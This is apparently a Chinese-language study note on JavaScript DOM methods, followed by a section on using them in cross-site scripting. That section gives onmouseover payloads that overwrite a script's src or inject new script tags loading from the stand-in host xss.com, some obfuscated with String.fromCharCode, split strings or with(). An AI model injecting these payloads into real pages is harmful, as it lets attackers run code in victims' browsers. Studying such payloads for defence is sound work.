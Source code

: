 ## DOM操作
### 基础知识
**获取节点**
```
getElementById() 返回对拥有指定 ID 的第一个对象的引用
getElementsByTagName()返回带有指定名称的对象的集合
getElementsByClassName() 获取所有指定类名的元素
```
**新增节点**
```
document.createElement() 创建节点对象，参数是字符串也就是html标签
createTextNode 创建文本节点，配合上一个使用
appendChild(element) 把新的结点添加到指定节点下，参数是一个节点对象
insertChild() 在指定结点钱插入新的节点
```
**修改节点**
```
replaceChild() 节点交换
setAttribute() 设置属性
```
**删除节点**
```
removeChild(element) 删除节点，要先获得父节点然后再删除子节点
```
**一些DOM属性**
```
innerHTML 设置或返回表格行的开始和结束标签之间的 HTML
parentNode 当前节点的父节点
childNode 子节点
attributes 节点属性
style 修改样式

firstElementChild 第一个子元素节点
lastElementChild 最后一个子元素节点
nextElementSibling 下一个兄弟元素节点
previousElementSibling 前一个兄弟元素节点
```

### 利用
**修改属性的值**
假如我们可以控制value的输入，那么可以使用 `getElementsByTagName()` ：
```html
<input name="" value="指向我修改第2个script标签的src值" 
onmouseover="document.getElementsByTagName('script')[1].src='change1'" style="width:300px"><br>

<input name="" value="指向我又修改了第2个script标签的src值" 
onmouseover="document['getElem'+'entsByTagName']('script')[1].src='change2'" style="width:300px"><br>
```
`getElementById()` 可以配合一些属性比如 `innerHTML`，下面再举例。

**增加节点**
假如我们可以控制value的输入，那么结合 `createElement()`、`appendChild(element)` ：
```html
<input name="" value="指向我增加一个src属性为new1的script标签" 
onmouseover="s=document.createElement('script');s.src='//xss.com/new1';document.body.appendChild(s)" style="width:300px"><br>

<input name="" value="指向我增加一个src属性为new2的script标签" 
onmouseover="document.body.appendChild(document.createElement(String.fromCharCode(115,99,114,105,112,116))).src='//xss.com/new2'" style="width:300px"><br>

<input name="" value="指向我增加一个src属性为new3的script标签" 
onmouseover="with(document)body.appendChild(createElement('script')).src='//xss.com/new3'" style="width:300px"><br>
```